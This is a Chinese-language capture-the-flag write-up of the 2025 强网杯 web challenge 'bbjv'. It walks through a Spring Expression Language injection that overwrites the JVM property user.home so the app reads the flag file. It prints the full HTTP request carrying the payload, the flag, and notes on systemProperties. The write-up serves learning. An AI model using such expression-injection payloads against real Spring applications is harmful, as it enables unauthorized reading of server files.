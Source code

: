 ```yaml
---
title: "2025 强网杯 bbjv"
outline: deep
tags: "CTF, writeup, 2025强网杯"
updateTime: "2025-10-25 17:38"
---
```

# 2025 强网杯 bbjv
闲来无事，顺手写一题强网杯Web签到题。
# 分析

`ReflectivePropertyAccessor`类限制Spel表达式无法直接实例化类，也就是无法通过构造其他类进行RCE

![image](assets/2025强网杯bbjv/image-20251019133553-9rm3atf.png)

题目存在对flag.txt的读取，说明其题目本意不是让我们进行rce，而是修改环境变量`user.home`，从而读取flag

![image](assets/2025强网杯bbjv/image-20251019133851-swgz49a.png)

给出的Dcokerfile，我们可以发现flag.txt在/tmp目录下，因此我们只需要修改系统环境变量，将`user.home`修改为`/tmp`即可获得flag

![image](assets/2025强网杯bbjv/image-20251019133950-557xayo.png)

# 题解

```
GET /check?rule={{urlesc(#{#systemProperties['user.home']='/tmp'})}} HTTP/2.0
Host: eci-2ze848gtw123nuofjx8b.cloudeci1.ichunqiu.com:8080
sec-fetch-site: none
upgrade-insecure-requests: 1
priority: u=0, i
accept-language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-user: ?1
accept-encoding: gzip, deflate, br, zstd
sec-ch-ua: "Google Chrome";v="141", "Not?A_Brand";v="8", "Chromium";v="141"
accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
sec-fetch-mode: navigate
user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
sec-fetch-dest: document
```

![image](assets/2025强网杯bbjv/image-20251019133634-kaocr47.png)

`flag{030d206d-92ea-4c12-a96e-23e11eaaa882}`

# 思考

`systemProperties`变量在Spring EL（SpEL）中，**代表当前JVM中的所有系统属性**，通常以`java.util.Properties`对象形式提供。

来源：这些属性主要来自JVM启动参数（以`-D`指定，如`-Dfile.encoding=UTF-8`），也包含JVM运行时内置属性（如`java.version`、`user.home`等）。

与`systemEnvironment`区别：`systemProperties`获取的是JVM级别的系统属性。而`systemEnvironment`获取的是操作系统级别的环境变量，例如PATH、JAVA\_HOME等。它们是两个不同的概念。

在此环境中不存在`systemEnvironment`变量值。

为什么Dockerfile中没有指定`user.home`的值，JVM也会设置其为`/root`？

![image](assets/2025强网杯bbjv/image-20251019135000-3j83bip.png)

**JVM内置默认值**

Java运行时环境会设置一系列默认的系统属性，包括：

- `user.home` - 用户主目录
- `user.dir` - 当前工作目录
- `java.home` - Java安装目录
- `os.name` - 操作系统名称

![image](assets/2025强网杯bbjv/image-20251019135342-1b1kz6i.png)